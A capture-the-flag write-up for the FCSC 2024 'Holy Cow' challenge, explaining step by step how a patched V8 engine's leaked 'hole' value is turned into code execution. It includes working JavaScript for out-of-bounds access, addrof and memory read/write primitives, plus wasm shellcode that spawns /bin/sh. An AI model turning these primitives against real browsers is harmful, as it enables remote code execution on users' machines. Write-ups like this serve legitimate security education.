# FCSC 2024 - Holy Cow

**🇫🇷 Énoncé:** 

Notre aventure commence, comme c'est souvent le cas dans ce genre de projet, par une discussion autour d'un verre. Tous plus éméchés les uns que les autres, mais avec une résolution commune : "et si on faisait notre propre navigateur web !".

Une fois à moitié déssoulé nous avons décidé de commencer par choisir le bon moteur Javascript. Le moteur V8 est notre premier choix car il a l'avantage d'être open source. Votre tâche aujourd'hui consiste donc à vérifier, à partir du git patch et de l'exécutable fourni, si tout est en ordre. Pour résoudre le challenge, il est nécessaire de lire le fichier `flag.txt`.

<br>

**🇬🇧 Task:** 

Our adventure began, as is often the case with this kind of project, with a chat over a drink. All of us more tipsy than the last, but with a common resolution: "Let's make our own web browser!

Once half sobered up, we decided to start by choosing the right Javascript engine. The V8 engine is our first choice, as it has the advantage of being open source. Your task today is to check, using the git patch and the supplied executable, that everything is in order. To solve the challenge, you need to read the `flag.txt` file.

`nc challenges.france-cybersecurity-challenge.fr 2104`

**Provided files**: [holy-cow.tar](files/holy-cow.tar)

- `d8` : the binary to exploit (javascript engine)
- `snapshot_blob.bin` : the snapshot
- `holy-cow.patch` : the patch applied to the source code

<hr>

**Note**:

The snapshot is only needed to run the binary with all the heap setup ready and so on.. We won't use it for the exploit but if you want to learn more about it you can check this [link](https://github.com/danbev/learning-v8/blob/master/notes/snapshots.md).

<hr>

## TL ; DR

- OOB read/write using TheHole
- Crafting `addrof` primitive
- Crafting heap write/read primitive
- Crafting arbitrary write primitive
- Wasm shellcode to the win

## 📖 Overview

### 💾 The patch

First things first, let us begin by reading the path applied to the source code of v8. To keep this writeup organised, let us split it in different parts.

**Disabling file reading**:

All the functions that allows to read a file from the file system are commented:

```patch
-  global_template->Set(isolate, "read",
-                       FunctionTemplate::New(isolate, ReadFile));
-  global_template->Set(isolate, "readbuffer",
-                       FunctionTemplate::New(isolate, ReadBuffer));
+  //global_template->Set(isolate, "read",
+  //                     FunctionTemplate::New(isolate, ReadFile));
+  //global_template->Set(isolate, "readbuffer",
+  //                     FunctionTemplate::New(isolate, ReadBuffer));
-  global_template->Set(isolate, "load",
-                       FunctionTemplate::New(isolate, ExecuteFile));
+  //global_template->Set(isolate, "load",
+  //                     FunctionTemplate::New(isolate, ExecuteFile));
```

So we can't use the classical unintended.. 😆

**Disabling some memory protections**:

Thanks to the author, some of the write protections are disabled:

```patch
-DEFINE_BOOL(wasm_write_protect_code_memory, true,
+DEFINE_BOOL(wasm_write_protect_code_memory, false,
...
-DEFINE_BOOL(wasm_memory_protection_keys, true,
+DEFINE_BOOL(wasm_memory_protection_keys, false,
...
-DEFINE_BOOL_READONLY(write_protect_code_memory, true,
+DEFINE_BOOL_READONLY(write_protect_code_memory, false,
...
-DEFINE_BOOL(write_protect_code_memory, true, "write protect code memory")
+DEFINE_BOOL(write_protect_code_memory, false, "write protect code memory")
```

The `wasm_memory_protection_keys` set to `false` will make our exploit easier (even if we could overwrite it).

**Creation of a new set attribute**:

Here comes the most important part:

```patch
diff --git a/src/builtins/builtins-collections.cc b/src/builtins/builtins-collections.cc
...
+BUILTIN(SetPrototypeHole) {
+  HandleScope scope(isolate);
+  const char* const kMethodName = "Set.prototype.hole";
+  CHECK_RECEIVER(JSSet, set, kMethodName);
+  JSSet::Clear(isolate, set);
+  //return ReadOnlyRoots(isolate).undefined_value();
+  return ReadOnlyRoots(isolate).the_hole_value();
+}
+
...
diff --git a/src/builtins/builtins-definitions.h b/src/builtins/builtins-definitions.h
...
+  CPP(SetPrototypeHole)
...
diff --git a/src/compiler/typer.cc b/src/compiler/typer.cc
...
+    case Builtin::kSetPrototypeHole:
+      return Type::OtherObject();    
...
diff --git a/src/init/bootstrapper.cc b/src/init/bootstrapper.cc
...
+    SimpleInstallFunction(isolate_, prototype, "hole",
+                          Builtin::kSetPrototypeHole, 0, true);
```

By doing that, it will create a new set prototype attribute that returns `ReadOnlyRoots(isolate).the_hole_value();`. We can deduce from the commented line above that it may be unusual, but no spoil we'll see that after 👀.

<hr>

**Note**: 

I didn't download the source code because this code was enough to understand how it works. (and I didn't want to waste time on setup..) When I had some issues understanding the code I just checked the source code on the [official repo](https://chromium.googlesource.com/v8/v8.git/+/refs/tags/10.2.1).

If you want to download the source code, apply the patch, and so on, you can check out this [writeup](https://github.com/teambi0s/bi0sCTF/tree/main/2024/Pwn/ezv8revenge/handout) from the [bi0sCTF 2024](https://ctftime.org/event/2117/).

<hr>

### 🙊 Talking to the binary

Taking this into account, we can start interacting with our binary.

We can launch it using this command line `./d8 --allow-natives-syntax`, that allows us to use some debugging functions.

Let us try first to display the `ReadOnlyRoots(isolate).the_hole_value();` returned by the hole function.

To do so, we just have to create a new `Set` object and then call `set.hole()`:

```js
d8> var set = new Set();
undefined
d8> print(set.hole());                            
hole
undefined
d8>
```

Well, not too much information from that.. Let us look on the internet what we can find about this famous "hole".

By simply typing 'exploit thehole v8' you'll find a lot of articles discussing how leaking the hole can be dangerous and even lead to RCE.. Well, that's good for us!

You can see from this [Chromium issue](https://issues.chromium.org/issues/40057710) that leaking `the_hole` allows us to set a map size to `-1` which could leads to RCE.

Don't be shy and start the exploitation!


## 💣 Exploit

### 🔓 Trigger the vulnerability

First of all, let's see if we can reproduce the same behavior as the report (I removed all the `undefined` results for readibility..):

```js
d8> var set = new Set();
d8> var map = new Map();
d8> map.set(1, 1)
d8> map.set(set.hole(), 1);
d8> map.delete(set.hole());
d8> map.delete(set.hole());
d8> map.delete(1);
d8> print(map.size)
-1
d8> 
```

So far, so good, we have our vulnerability!

<hr>

**Note**:

If you want a better explanation than just "Trust me it works", you can check this [link](https://starlabs.sg/blog/2022/12-the-hole-new-world-how-a-small-leak-will-sink-a-great-browser-cve-2021-38003/#corrupting-map-size).

<hr>

### 📶 OOB Read/Write

Now the hardest part starts.. 

First, let's create an `exploit.js` file to make testing easier, we can load it by just appending the filename at the end of our command line `./d8 --allow-natives-syntax exploit.js` (however you won't have the beautiful `undefined` keyword anymore at each command sent 😝).

<hr>

**Note**:

If you don't know what is a `Map` in javascript, I strongly advise you to read some documentation about it (you can check the [references](#references) at the end of this writeup).

<hr>

Before going further, let us look at the map structure in memory:



You can see 3 main parts:
- `header`
- `hashTable`
- `dataTable`

The most important thing to know is that `header[2]` holds the bucket count and that `hashTable` and `dataTable` sizes depend on this field.

So, if we can control the bucket count, we can control the size of `dataTable`, but the real size will remain unchanged, which allows us to read and write out of bounds of `dataTable`.

But how is it possible? Well, this [article](https://starlabs.sg/blog/2022/12-the-hole-new-world-how-a-small-leak-will-sink-a-great-browser-cve-2021-38003/#modifying-map-structure) (that helped me a lot to craft this exploit) tells us that having a `map.size == -1` makes the next `map.set()` writing to `header[2]`, that is overwriting our bucket count. 😁

However, having an OOB with a map can limit us because of the hash function, to write our values after `dataTable` we have to compute the hash each time to be sure targetting the correct index.

So the plan is to create an array right after the map. Why? Because the size of the array is stored juste before its content, so we can propagate our OOB read/write to this array, that's going to make our life easier, because we can have a classical OOB with contiguous indexes.

Here is a small diagram to help you visualize:



To achieve that, we need to be accurate in our `map.set()` to target our array size (because of the hash key that defines the index).

To do so, we have 2 choices:
- Do some maths (easy I swear) as described in the [article](https://starlabs.sg/blog/2022/12-the-hole-new-world-how-a-small-leak-will-sink-a-great-browser-cve-2021-38003/#achieving-oob-readwrite-with-oob_arr) (already mentioned above)
- Look on the internet exploits of the CVE-2021-38003 and save some time..


Let us combine what we saw so far and try to have an array with a big size.

Here is our exploit:

```js
var vuln_set = new Set();

var map = new Map();
map.set(1, 8);
map.set(vuln_set.hole(), 0x8);
map.delete(vuln_set.hole());
map.delete(vuln_set.hole());
map.delete(1);
// map.size == -1

// Overwrite bucket count
map.set(0x18, "Ruulian");

// array to increase the offset of the oob array
var nop = new Array(1);

// oob_array 
var oob_array = [];

// Overwrite oob_array size with pointer to "1"
map.set("1", "Ruulian");

%DebugPrint(oob_array);
```

If we execute that:



The size is overwritten by a pointer to the string "1" so the size is way bigger than the real size of the array (which is zero actually).

<hr>

**Note**:

In the payload above, you can replace the strings "Ruulian", they are not mandatory, however, the keys `0x18` and `"1"` are. I found those values in a POC of the CVE-2021-38003, they are arbitrary chosen.

<hr>

So now, when we can access elements from `oob_array[i]` out of bounds.

### ♐ addrof primitive

The `addrof` primitive is one the most important in browser exploitation because it allows us to get the address of an object in memory, which is mandatory to know where to read/write after.

To achieve to this primitive, we have to read from a simple type array, an object that contains our target object, this way we can read the pointer as if it was a simple type.

The most used simple type in browser exploitation is float. I didn't find an accurate explanation about why this type, however it matches the size of a pointer so it is fine for us.

So now, the plan is to get our `oob_array` as a float array, then create an object right after that contains the object that we want to read the address.



So here, we want to know the address in memory of `JS Object`, we put it as an attribute of `object` to have a pointer to `JS Object`. Then we just have to read the correct index from `oob_array` to have the pointer as a float, we therefore have the address of `JS Object` :-)

<hr>

**Note**:

You may noticed the `tag` attribute in the object, don't be that hurried! Everything is done on purpose 😛

<hr>

Let us modify our exploit to get this setup:

```js
var vuln_set = new Set();

var map = new Map();
map.set('Ruulian', 8);
map.set(vuln_set.hole(), 0x8);
map.delete(vuln_set.hole());
map.delete(vuln_set.hole());
map.delete("Ruulian");

map.set(0x18, "Ruulian");

var nop = new Array(1);

var oobArray = [];
oobArray.push(1.1);

var object = {
    "tag": 0xdead,
    "leak": 0xbeef,
};


map.set("1", "Ruulian");
```

Well, now we have our setup, we just have to choose an object to put in `object.leak` and we're going to be able to leak its address using `oob_array` at the correct index.

But how can we find this index, well we have 2 choices (again):
- Use gdb and look at the index
- Use a tag

I used both ways but the tag option makes that we don't hardcode any value, so it may be more efficient. (in case of a classical remote problem..)

The plan is to loop over the indexes of `oob_array` until we find the value `0xdead << 1` so we know that we just have to read one element after.

<hr>

**Note:**

The value we need is `0xdead << 1` because v8 uses 32-bit numbers to represent all values and it differentiates two types of 32-bit numbers:
- Small integers (SMI) with lsb set to 0
- Heap objects with lsb set to 1

So `0xdead` which is a SMI will be stored in memory as `0xdead << 1`.

More information about data types in v8 [here](https://www.dashlane.com/blog/how-is-data-stored-in-v8-js-engine-memory#BlogArticle-HowisdatastoredinV8JSenginememory?-Coredatarepresentationtypes/efficientlyrepresentingvalues).

<hr>

We can append our `addrof` primitive to our exploit file:

```js
addrof = (obj) => {
    // Setting object.leak to point to obj
    object.leak = obj;
    let ret;

    // Search for the right index
    for (let index = 0; index < 0x1000; index++) {
        // Convert the 64-bit float as 2 32-bit numbers
        let half = d2u(oob_array[index]);

        // 2 cases:

        // The tag is the first element -> just return the second one
        if(half[0] == (object.tag << 1)){
            ret = half[1];
            break;
        }
        // The tag is the second element -> return the first element of the next index
        else if(half[1] == (object.tag << 1)){
            ret = d2u(oob_array[index + 1])[0];
            break;
        }       
    }
    return BigInt(ret);
}
```

<hr>

**Note**:

Don't worry, all the helpers functions like `d2u` are going to be in the final exploit, their purpose are going to be explained each time.

<hr>

If you are not used to browser exploitation on v8, you should have noticed something strange here. We are looking for a pointer to an object, it should be 64 bits, however we are returning a 32-bit value here. So why?

The answer is **pointer compression**, another way to save memory.. If you remember, I told you above that all values are represented as 32-bit integers, this also applies for heap pointers. v8 does not store heap pointers in 64 bits because the heap base is not going to change over time so no need to store it in all pointers.

It saves a lot of memory because v8 allocates a lot of heap objects..

So when v8 wants to access a heap pointer, it takes the 32 last bits and just add the base.

More information about heap compression [here](https://v8.dev/blog/pointer-compression).

Let us try our `addrof` primitive:

```js
// Creating a basic object
var obj = {};

let addr = addrof(obj);

print(`addr: 0x${addr.toString(16)}\n`);

// Check the address
%DebugPrint(obj);
```

Here is the result:



You can see in red our leak that corresponds to the 32 last bits of the real address in blue!

You can see here the process of pointer compression, the `%DebugPrint(obj);` is getting the base to display the full pointer.

<hr>

**Note**:

You can see here that the lsb of the address is 1. Indeed as mentioned above, it is a heap pointer so v8 stores it with a lsb set to 1.

<hr>

### 💥 Heap read/write

Now that we have a heap address, we can start to play! The next step is to achieve heap arbitrary read/write.

I swear it is the last difficult part..

For this, we need one more array that is gonna be right after our `object`:

```js
map.set(0x18, "Ruulian");

var nop = new Array(1);

var oob_array = [];
oob_array.push(1.1);

var object = {
    "tag": 0xdead,
    "leak": 0xbeef,
};

bigUintArray = new BigUint64Array(6);
bigUintArray[0] = 0x1234n;

map.set("1", "Ruulian");
```

We chose the type `bigUintArray` because it is a `JSTypedArray` and it has pointers to its data accessible using our oob array.



If we can overwrite `data_ptr` address, we can read/write to this location. `data_ptr` is computed from the `base_pointer` and hopefully, we can access it from our `oob_array`!

Here is the memory at `oob_array`:



You can see the `base_pointer` here 😈.

I found by testing that `base_pointer` was the one at offset 12 (the second red rectangle), no need to overwrite the first one.

To find the correct index from our `oob_array`, we'll use again a marker. You can see in the screenshot above, the content of `bigUintArray[0]` that we set earlier, and guess what? The offset is constant! So we just have to look for `0x1234` in memory (like we did for the `addrof` primitive) and then add the correct offset.

<hr>

**Note**:

Here the value `0x1234` is not left shifted because it is an element of a BigUint64Array, thus it is a BigUint64 and not a SMI anymore.

<hr>

Here is the process to find the index:

```js
let base_pointer_idx;

for (let i = 0; i < 0x3000; i++) {
    if (f2i(oob_array[i]) == 0x1234) {
        base_pointer_idx = i + 12;
        break;
    }
}
```

<hr>

**Note**:

`f2i` converts a float to a bigUint64 (to match the type of `bigUintArray`).

<hr>

The problem is that we are going to overwrite the 64 bits and probably make the application crash. Since we need to overwrite only 32 bits, we can leak the current value, to put them back when we'll overwrite the 64 bits.

```js
let prev_data = f2i(oob_array[base_pointer_idx]);
```

Now we have our index to overwrite the `base_pointer`, so let us craft our primitive:

```js
heap_r = (addr) => {
    // Data is 8 bytes after the base_pointer so we have to decreased it by 8
    addr -= 8n;

    // Overwrite bigUintArray base_pointer with our target address
    oob_array[base_pointer_idx] = i2f((addr << 0x20n) | (prev_data & 0xffffffffn));

    // bigUintArray[0] is now the data we want to read :-)
    return bigUintArray[0];
}
```

Let us try our heap read primitive now! We'll use gdb to be sure that the value read is the good one.

Let us read anything from the heap memory:

```js
var obj = [0x12345678];

let leak = heap_r(addrof(obj));

print(`addr: 0x${leak.toString(16)}\n`);

// We need the full address to use it in gdb
%DebugPrint(obj);

// Pause execution
readline();
```


Now let us check in gdb if the content of address `0x2b7e0004bc3d` is `0x226100203a71`:



Well.. Almost.. 


I hope you followed!! It is a heap pointer so we have to clear its lsb!



We therefore have a beautiful heap arbitrary read primitive. 😎

And guess what? We also have the heap arbitrary write. Since `bigUintArray[0]` allows us to reads the content of our pointer, `bigUintArray[0] = X;` writes the content we want at the address we want.


So we have our heap arbitrary write primitive already done:

```js
heap_w = (addr, value) => {
    addr -= 8n;
    oob_array[base_pointer_idx] = i2f((addr << 0x20n) | (prev_data & 0xffffffffn));
    bigUintArray[0] = value;
}
```

### 🔥 Arbitrary write

Well the last thing we need is an arbitrary write. To do so, nothing difficult, we have a javascript object that allows us to achieve that easily. Thanks javascript!

We will use this [technique](https://starlabs.sg/blog/2022/12-the-hole-new-world-how-a-small-leak-will-sink-a-great-browser-cve-2021-38003/#arbitrary-write-primitive).

Here is the arbitrary write setup:

```js
dv = new DataView(new ArrayBuffer(0x1000));

dv_buffer = heap_r(addrof(dv) + 0xcn);

set_dv_backing_store = (addr) => {
    heap_w(dv_buffer + 0x1cn, addr);
}
```

The only thing that we have to do now is to call `set_dv_backing_store(addr)` with `addr` the address where we want to write and then we can write `byte_to_write` to `addr + idx` by calling `dv.setUint8(idx, byte_to_write)`.

It will become easier to understand when we'll write our exploit, don't worry.

### 🐚 Getting shell

One the most used technique to achieve RCE is to use a wasm shellcode.

The process is the following:
- Create a wasm instance with a classical code (it will map a new rwx area in memory)
- Leak the address of the `wasm_instance` object
- Read the address of the rwx area at `wasm_instance+0x60`
- Overwrite the current wasm code by our shellcode
- Call a wasm function (it will make us jump on our shellcode)

<hr>

**Note**:

Remember that the patch is disabling the `wasm_memory_protection_keys` and `wasm_write_protect_code_memory`, thanks to that, we can easily overwrite the wasm code.

However, in this [article section](https://starlabs.sg/blog/2022/12-the-hole-new-world-how-a-small-leak-will-sink-a-great-browser-cve-2021-38003/#writing-and-executing-our-shellcode), it is explained how to bypass this mitigation if it was enabled.

<hr>

Hopefully we already have all of our primitives, we just need to setup the wasm:

```js
let wasm_code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
let wasm_mod = new WebAssembly.Module(wasm_code);
let wasm_instance = new WebAssembly.Instance(wasm_mod);
let f = wasm_instance.exports.main;
```

Then, create a shellcode which calls `/bin/sh`:

```js
const shellcode = new Uint8Array([72, 184, 47, 98, 105, 110, 47, 115, 104, 0, 153, 80, 84, 95, 82, 102, 104, 45, 99, 84, 94, 82, 232, 10, 0, 0, 0, 47, 98, 105, 110, 47, 115, 104, 0, 0, 0, 86, 87, 84, 94, 106, 59, 88, 15, 5]);
```

And then the process is easy:

```js
// Leak rwx area address
let rwx = heap_r(addrof(wasm_instance) + 0x60n);

// Set target to arbitrary write
set_dv_backing_store(rwx);

// Write shellcode byte by byte
for (let i = 0; i < shellcode.length; i++) {
    dv.setUint8(i, shellcode[i]);
}

// Jump on our shellcode
f();
```

Let us try our exploit:




## 🚩 Getting the flag

Fiouf! 😅 It was hard but we did it!

Now getting the flag.. I just copy pasted all the lines on the remote instance but nothing was working...

Even locally, when I was copy pasting my lines in the interpreter it was impossible to overwrite the length of `oob_array`.. 

After thinking a lot, I was in front of a question: `Why it is working with the exploit file, but not in the interpreter?`.

Then, I remember something when I was debugging v8: each time you send a command, it makes some allocations on the heap. So the accurate calculus we made to overwrite the `oob_array` length is completely broken.

The solution I found is just to make a one liner of my exploit and to send it in one line to avoid in between allocations.

And it worked!



You can find my final exploit [here](files/exploit.js).

## Conclusion

It was the first time I was dealing with v8 and browser exploitation, so it was a great new experience (even if it was not always easy..😅). It makes me want to dig a little more into browser exploitation and I hope that I'll find some interesting challenges in various CTF about this subject!
Thanks to the author for this nice challenge, which is a good introduction to browser exploitation!

## References

- https://github.com/danbev/learning-v8/blob/master/notes/snapshots.md
- https://starlabs.sg/blog/2022/12-the-hole-new-world-how-a-small-leak-will-sink-a-great-browser-cve-2021-38003/
- https://itnext.io/v8-deep-dives-understanding-map-internals-45eb94a183df
- https://www.dashlane.com/blog/how-is-data-stored-in-v8-js-engine-memory
- https://v8.dev/blog/pointer-compression
- https://jhalon.github.io/chrome-browser-exploitation-1/
- https://medium.com/numen-cyber-labs/from-leaking-thehole-to-chrome-renderer-rce-183dcb6f3078
- https://issues.chromium.org/issues/40057710
